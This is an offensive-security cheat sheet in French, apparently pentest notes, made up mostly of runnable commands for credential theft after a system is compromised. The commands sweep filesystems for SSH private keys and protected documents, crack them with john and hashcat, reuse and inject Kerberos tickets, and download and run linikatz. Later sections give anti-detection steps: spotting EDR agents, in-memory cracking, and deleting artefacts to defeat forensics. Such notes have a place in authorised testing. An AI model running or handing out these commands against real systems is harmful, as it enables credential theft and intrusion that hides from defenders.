

## Détection de fichiers protégés

```bash
# Rechercher des extensions de fichiers typiques
for ext in {xls,xlsx,xltx,csv,odt,odp,ods,doc,docx,pdf,ppt,pptx}; do
  find / -name "*.${ext}" 2>/dev/null | grep -vE "lib|fonts|share|core"
done

# Rechercher des clés SSH privées
grep -rnw "PRIVATE KEY" / 2>/dev/null | grep ":1"

# Rechercher des archives et volumes chiffrés
find / -type f \( -iname "*.zip" -o -iname "*.rar" -o -iname "*.7z" -o -iname "*.gz" -o -iname "*.tar" -o -iname "*.vhd" -o -iname "*.tc" -o -iname "*.kdbx" \) 2>/dev/null
```

## Extraction de hash (2john)

```bash
# Localiser les outils de conversion
locate *2john*

# Exemples de conversion
ssh2john.py SSH.private > ssh.hash
office2john.py Protected.docx > office.hash
pdf2john.py file.pdf > pdf.hash
zip2john archive.zip > zip.hash
rar2john archive.rar > rar.hash
7z2john.pl archive.7z > 7z.hash
bitlocker2john -i disk.vhd > all.hashes
veracrypt2john.py volume.tc > tc.hash
keepass2john database.kdbx > keepass.hash
```

> [!warning]
> Le cracking de fichiers Office >= 2013 est extrêmement lent dû au **SHA-512**/**AES**.

## Attaques sur clés SSH et documents

```bash
# Cracker une clé SSH privée
john --wordlist=rockyou.txt ssh.hash
john ssh.hash --show

# Cracker un document Office
john --wordlist=rockyou.txt office.hash
john office.hash --show

# Cracker un PDF
john --wordlist=rockyou.txt pdf.hash
john pdf.hash --show
```

## Gestion des tickets Kerberos

```bash
# Rechercher des commandes kinit dans les scripts
grep -r "kinit" /home /opt /scripts 2>/dev/null

# Inspection des fichiers .keytab
klist -k -t /path/to/file.keytab
kinit user@DOMAIN -k -t file.keytab

# Inspection des fichiers .ccache
env | grep -i krb5
ls -l /tmp | grep krb5cc
klist
export KRB5CCNAME=/path/to/krb5cc
```

> [!note]
> La validité des tickets **Kerberos** est limitée dans le temps (vérifier avec **klist**).

## Extraction avec Linikatz

> [!danger]
> L'utilisation de **linikatz** nécessite des privilèges root.

```bash
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
bash linikatz.sh
```

## Conversion et injection de tickets

```bash
# ccache vers kirbi
impacket-ticketConverter input.ccache output.kirbi

# kirbi vers injection (Windows avec Rubeus)
Rubeus.exe ptt /ticket:output.kirbi
```

## Attaques sur archives et volumes chiffrés

```bash
# Cracker des archives ZIP/RAR/7z
john --wordlist=rockyou.txt zip.hash
john --wordlist=rockyou.txt rar.hash
john --wordlist=rockyou.txt 7z.hash

# Cracker des fichiers OpenSSL-encrypted
for pass in $(cat rockyou.txt); do
  openssl enc -aes-256-cbc -d -in archive.gzip -k $pass 2>/dev/null | tar xz
done

# Cracker BitLocker avec hashcat
grep "bitlocker\$0" all.hashes > crackme.hash
hashcat -m 22100 crackme.hash rockyou.txt -o cracked.txt
```

> [!tip]
> Le mode **-m 22100** de **hashcat** est requis pour **BitLocker**.

## Gestion des règles de firewall/EDR bloquant les outils de cracking

```bash
# Vérifier les connexions sortantes si le cracking est déporté
iptables -L OUTPUT -n -v

# Détecter la présence d'agents EDR via les processus
ps aux | grep -Ei "falcon|crowdstrike|carbonblack|sentinel"

# Utiliser des outils de cracking en mémoire pour éviter l'écriture sur disque (EDR)
# Exemple : piping direct vers john sans fichier intermédiaire
cat hash.txt | john --stdin --wordlist=rockyou.txt
```

## Utilisation de GPU pour le cracking (Hashcat vs John)

| Caractéristique | John the Ripper | Hashcat |
| :--- | :--- | :--- |
| **Usage principal** | CPU / Formats variés | GPU / Haute performance |
| **Accélération** | OpenCL (limité) | OpenCL / CUDA (natif) |
| **Syntaxe GPU** | `--format=opencl-md5` | `--force` (si nécessaire) |

```bash
# Exemple Hashcat avec GPU (Device 1)
hashcat -m 0 -a 0 -d 1 hash.txt rockyou.txt --status --status-timer 10

# Vérifier les capacités OpenCL
hashcat -I
```

## Techniques de cracking distribué (John MPI)

```bash
# Utilisation de MPI pour distribuer la charge sur plusieurs nœuds
# Nécessite une configuration de cluster (mpirun)
mpirun -np 4 --host node1,node2 john --format=sha256crypt --wordlist=rockyou.txt hash.txt
```

## Analyse forensique des fichiers temporaires générés par le cracking

```bash
# Rechercher les fichiers de session John laissés après un crash
find /root/.john/ -name "*.rec"

# Inspecter les logs de hashcat pour identifier les patterns détectés
cat hashcat.log

# Nettoyage post-cracking pour éviter la détection forensique
rm -f *.hash *.pot *.rec
```

## Montage de volumes

| Format | Outil de conversion | Méthode de montage |
| :--- | :--- | :--- |
| BitLocker | **bitlocker2john** | Windows (Unlock Drive) |
| VeraCrypt | **veracrypt2john** | VeraCrypt GUI |
| KeePass | **keepass2john** | KeePassXC |